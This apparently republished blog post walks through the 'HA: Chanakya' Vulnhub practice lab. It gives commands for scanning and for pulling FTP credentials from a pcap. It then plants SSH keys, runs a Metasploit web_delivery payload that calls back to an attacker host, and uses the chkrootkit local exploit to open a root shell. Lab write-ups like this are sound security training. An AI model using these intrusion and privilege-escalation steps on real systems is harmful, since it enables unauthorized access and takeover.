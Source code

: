 ```yaml
---
title: 'HA: Chanakya Vulnhub Walkthrough'
date: 2019-11-27T16:34:00+01:00
draft: false
---
```


Today we are going to solve our Boot to Root challenge called “HA Chanakya”. We have developed this lab for the purpose of online penetration practices. It is based on the Mastermind that took down kingdoms, one and only Chanakya. Let’s Solve it!!

**Download [Here](https://www.vulnhub.com/entry/ha-chanakya,395/)**

**Level: Intermediate**

**Task:** To Enumerate the Target Machine and Get the Root Access.

### **Penetration Methodologies**

*   **Network Scanning**
    *   Netdiscover
    *   Nmap Scan
*   **Enumeration**
    *   Browsing HTTP Service
    *   Getting FTP Login Credentials
    *   FTP Login
*   **Exploitation**
    *   Creating Authorized keys to login via SSH
    *   Transferring keys through FTP
    *   Logging via SSH
    *   Reading Chkrootkit logs
    *   Getting a reverse connection
    *   Spawning a TTY Shell
*   **Privilege Escalation**
    *   Chkrootkit

### **Walkthrough**

### **Network Scanning**

After downloading, run the Machine in VMWare Workstation. To work on the machine, we will be needing its IP Address. For this, we will be using the netdiscover command. After matching the MAC and IP Address we found the Virtual Machine IP Address to be 192.168.1.101.

```
netdiscover
```

![](https://i0.wp.com/1.bp.blogspot.com/-GKnZymNDj8U/Xd6QC4SceoI/AAAAAAAAhrg/o84C8q2PWI4LPf6iBlpUPXRRdjPcB2FjgCLcBGAsYHQ/s1600/1.png?w=687&ssl=1)

Now that we have the Target Machine IP Address, our next logical step would be to do a port scan on the target to get information about the various services that are running on the target machine. After the Aggressive Scan of all the ports, we see that we have the SSH service (22), HTTP service (80), FTP service (21) running on the Target Machine.

```
nmap -A 192.168.1.101
```

![](https://i0.wp.com/1.bp.blogspot.com/-BWBPGtgQjB8/Xd6QFh8-Z4I/AAAAAAAAhr0/QVUa558S6BQSPwNNuNwIQtoOr8sfNLP7gCLcBGAsYHQ/s1600/2.png?w=687&ssl=1)

### **Enumeration**

Moving on, we observed that we have the HTTP service running. It is probable that a web page is hosted. So, we decided to take a look through our Web Browser. We did thorough browsing of the webpage. We went through its source code and images, but there was no way in or any hint.

```
http://192.168.1.101
```

![](https://i0.wp.com/1.bp.blogspot.com/-p-gY1erJBds/Xd6QGTmV2UI/AAAAAAAAhr8/buH4f4g0Yv82YbH0qX5sliZuHD4hUpJdwCLcBGAsYHQ/s1600/3.png?w=687&ssl=1)

Till now we didn’t find any hint to establish our foothold, therefore we chose DIRB for directory brute force attack and Luckily found abuse.txt. After finding the abuse.txt, we decided to download this file to our attacker system for a close inspection. We used the wget command to download this file. Upon opening the file, we see that it contains some text that doesn’t make much sense. It must be encrypted.

```
dirb http://192.168.1.101/ -X .txt  
abuse.txt  
wget http://192.168.1.101/abuse.txt  
cat abuse.txt
```

![](https://i0.wp.com/1.bp.blogspot.com/-JLBrfEgEeFE/Xd6QGV810TI/AAAAAAAAhr4/GzOMNFZiGSUfLf1phnWc6-WmO_P0qn0ZwCLcBGAsYHQ/s1600/4.png?w=687&ssl=1)

After searching on the Internet for a while we found that ROT13 resembles to the text we found. So, we decided to decode the text using the ROT13 Decrypter found [here](http://rot13.com).  When we decrypted the encoded text to be the name of a packet capture file. Let’s find this file.

![](https://i0.wp.com/1.bp.blogspot.com/-u3hZdIr_g54/Xd6QGZMd1JI/AAAAAAAAhsA/rse5ey6foF4BLN1rRsAJ3sMZN3q37smWACLcBGAsYHQ/s1600/5.png?w=687&ssl=1)

```
ashoka.pcapng
```

We decide to run the wget command directly on the IP Address in a hope that the packet capture file would be in the /var/www/html/ directory. Our suspicion was correct, the file was swiftly downloaded in our attacker machine. After downloading to inspect the file, we decided to inspect the file using Wireshark.

```
wget http://192.168.1.101/ashoka.pcapng  
wireshark ashoka.pcapng
```

![](https://i0.wp.com/1.bp.blogspot.com/-vqzOz1KPT8I/Xd6QHTjqwtI/AAAAAAAAhsE/ct4Hme9bHV4GGFjnNpNe3m-fv3VEUiBqwCLcBGAsYHQ/s1600/6.png?w=687&ssl=1)

Opened the captured file in Wireshark, followed the tcp stream of ftp traffic and got one username ashoka and password kautilya.

```
User: ashoka  
Pass: kautilya
```

![](https://i0.wp.com/1.bp.blogspot.com/-TbqC737rvcI/Xd6QHlvyYuI/AAAAAAAAhsI/11Xtwvg_pdopg3vSf35eRw7gMO_F8xFdwCLcBGAsYHQ/s1600/7.png?w=687&ssl=1)

Now that we have the FTP login credentials, we logged into the FTP Server. After logging in we ran the ls command to look around. We found ourselves in the root directory. So, we decided to make our way through ssh with placing the keys at this location. For that, we created a directory named “.ssh”. After traversing in this newly created directory we went back to our native terminal.

```
ftp 192.168.1.101  
ashoka  
kautilya  
ls -la  
mkdir .ssh  
cd .ssh
```

![](https://i0.wp.com/1.bp.blogspot.com/-uYeQeXXUdq4/Xd6QH4qIOmI/AAAAAAAAhsM/S8dTvnRHX5cpRlBTMX4fWeGU6IQkzxgmQCLcBGAsYHQ/s1600/8.png?w=687&ssl=1)

### **Exploitation**

Now time to generate some ssh keys. We used ssh-keygen to create some keys. We entered the password as “123”. This can be anything of your choice. We kept it so that it’s easy to remember. Moving on after the key is created, we moved into the .shh directory on our native shell. Here we saw that we have the key named “id\_rsa.pub”. Now we need to upload this key to FTP so we copied the contents of the is\_rsa.pub in the file named authorized\_keys.

```
ssh-keygen  
cd .ssh  
ls  
cat id\_rsa.pub > authorized\_keys  
ls
```

![](https://i0.wp.com/1.bp.blogspot.com/-XlZcKZKykeM/Xd6QIZgugiI/AAAAAAAAhsQ/MmE4nuS4Wh0y3bzV6RySC3enItzN-GN2gCLcBGAsYHQ/s1600/9.png?w=687&ssl=1)

We moved the authorized\_keys to the home directory so that it is easier to transfer the file using the File Transfer Protocol. Now using the put command we transferred the file to the target machine.

```
put authorized\_keys  
ls
```

![](https://i2.wp.com/1.bp.blogspot.com/-mq4WD405kRA/Xd6QCxsoDDI/AAAAAAAAhrY/lPapbD4wRKwSJG7ypXsde9rzgAo8GMLswCLcBGAsYHQ/s1600/10.png?w=687&ssl=1)

Now we will be connecting to the target machine using the ssh. It will be possible to login now due to the authorized keys we placed earlier. We got a shell of the Ashoka user. After some enumeration, we see that we have a logs file inside the temp file. We tried to take a look at it using the cat command.  It definitely looks like a Chkrootkit test results log. This is clue that we might be able to escalate privileges on this machine using Chkrootkit.

```
ssh ashoka@192.168.1.101  
ls /tmp  
cat /tmp/logs
```

![](https://i2.wp.com/1.bp.blogspot.com/-1FpyUQYc-VU/Xd6QC6o14YI/AAAAAAAAhrc/XuxpUGs1__IUjlTzopig29CcVxL7iIUxACLcBGAsYHQ/s1600/11.png?w=687&ssl=1)

### **Privilege Escalation**

Now to Escalate Privileges on the target machine, we are going to need a meterpreter on the target machine which we are going to use get root with the help of the Metasploit. To do this we decided to take a meterpreter using the web\_delivery exploit. First, we selected the web\_delivery exploit with the help of use command followed by providing the lhost. Lhost is the IP Address of our target machine (Kali Linux). In the end, we will type in exploit. This will create a one-line script for us that will give us a meterpreter over the target machine.

```
use exploit/multi/script/web\_delivery  
set lhost 192.168.1.107  
exploit
```

![](https://i1.wp.com/1.bp.blogspot.com/-ja8faZmEXO4/Xd6QECaK2rI/AAAAAAAAhrk/_7agcv5PMlElUJAT2SFkCyvyj6Mqng6qACLcBGAsYHQ/s1600/12.png?w=687&ssl=1)

We copied the said command generated by the exploit and ran over the ssh session we got earlier.

![](https://i0.wp.com/1.bp.blogspot.com/-zs_pRlXp5Qk/Xd6QEexS46I/AAAAAAAAhro/yUWlMA6xjK4kR24EhP-vQUjvN-JYMXmwwCLcBGAsYHQ/s1600/13.png?w=687&ssl=1)

This gave us the session we required to work. We are going to use the inbuilt exploit in the Metasploit that could help us get root shell over the target machine. We selected the session and provide the port for another session. After typing in exploit we see that the exploit is working and it gave us another shell over the port mentioned earlier.

```
use exploit/unix/local/chkrootkit  
set session 1  
set lport 8888  
exploit
```

![](https://i2.wp.com/1.bp.blogspot.com/-nZLurUKZR5c/Xd6QElr9rWI/AAAAAAAAhrs/kw7-Mr1gdckma314PhEaJNGEgiRMQZlXgCLcBGAsYHQ/s1600/14.png?w=687&ssl=1)

To convert the shell into a proper working shell, we ran the python one-liner to spawn a TTY shell. We looked around and found a text file name final.txt, we opened it to find the final flag. We did it. This concludes this lab.

```
python -c 'import pty;pty.spawn("/bin/bash")'  
ls  
cat final.txt
```

![](https://i0.wp.com/1.bp.blogspot.com/-hPYq1ZI_VBk/Xd6QFARVelI/AAAAAAAAhrw/dRcvUsUmFz4RPaG8tKjMZGdEbMSWEfmgwCLcBGAsYHQ/s1600/15.png?w=687&ssl=1)

**Author: Pavandeep Singh** is a Technical Writer, Researcher and Penetration Tester Contact **[here](https://www.linkedin.com/in/pavandeep-singh-6b1074132)**

The post [HA: Chanakya Vulnhub Walkthrough](https://www.hackingarticles.in/ha-chanakya-vulnhub-walkthrough/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/2DmSEks